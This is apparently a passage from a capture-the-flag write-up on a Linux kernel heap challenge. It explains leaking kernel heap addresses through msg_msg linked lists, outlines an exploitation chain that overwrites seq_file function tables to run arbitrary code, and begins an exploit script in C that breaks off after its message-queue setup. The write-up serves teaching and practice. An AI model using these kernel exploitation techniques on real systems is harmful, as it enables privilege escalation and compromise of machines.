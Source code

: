 ## VI: Leak KHeap-x

With the primitives above, it seems we solved this challenge but actually, you’ll find that the kernel heap is not as deterministic as the user space heap.  The offset between pages of `kmalloc-32` to `kmalloc-128` will change. So we need a way to leak the address of `Kheap-x` 

As we know, `msg_msg` is a linked list so we can chain different sizes of messages. For example, the first `msg_msg` struct is on `kmalloc-128` while the second one is on `kmalloc-196`. So we can trace the linked list to `Kheap-x` (x≤0x1000). 

For example, in this challenge, we are on `kmalloc-128` and we can read everything on that page. So we can create another `msg_msg(size=128)` struct on the same page and append a `msg_msg(size=0x196)` to it. We can leak the address of `msg_msg(size=0x196)` by reading the next pointer of `msg_msg(size=128)`. Therefore, we can combine this skill with previous skills to read and write arbitrary addresses on kernel heap(`object_size<0x1000`)!

# 0x04 Exploitation

- Use the vulnerability to edit `msg_msg.m_ts`  to leak current page address(`kmalloc-128`) and `kernel.text` address
- Combine `VI: Leak KHeap-x` and `III: Arbitrary Address Read` to leak the address of `kmalloc-32`
- Spray `kmalloc-32` with `seq_file.op`
- Use `V: Arbitrary Address Write` to modify the function tables of `seq_file` to execute  arbitrary code

# 0x05 Exploitation Script

- I still need to fix it since it’ll give SEGFAULT after executing my shellcode
- Lots of useless stuff in the script
- Not very stable

```c
#include "libx.h"
#include <sys/syscall.h>
#include <linux/socket.h>
#include <sys/types.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <stdio.h>
#include <string.h>
#include <errno.h>
#include <stdint.h>
struct message {
    long mtype;
    char mtext[100];
};
typedef struct msgQueueMsg{
    long mtype;
    char mtext[1];
} msgQueueMsg;
int msgQueueSpwan(char *s){
    key_t key;
    // Generate a unique key for the message queue
    key = ftok(s, 'A');
    if (key == -1) {
        perror("ftok");
        return 1;
    }
    int msgid;
    // Create a message queue
    msgid = msgget(key, 0666 | IPC_CREAT);
    if (msgid == -1) {
        perror("msgget");
```

[1]: https://elixir.bootlin.com/linux/latest/source/fs/seq_file.c
[2]: https://elixir.bootlin.com/linux/latest/source/ipc/msg.c
[3]: https://duasynt.com/blog/linux-kernel-heap-feng-shui-2022
[4]: https://arttnba3.cn/2021/11/29/PWN-0X02-LINUX-KERNEL-PWN-PART-II/
[5]: https://github.com/sajjadium/ctf-archives/tree/0328b950496e5d12b775e8bd67d1569977ec10c0/ctfs/VULNCON/2021/pwn/ips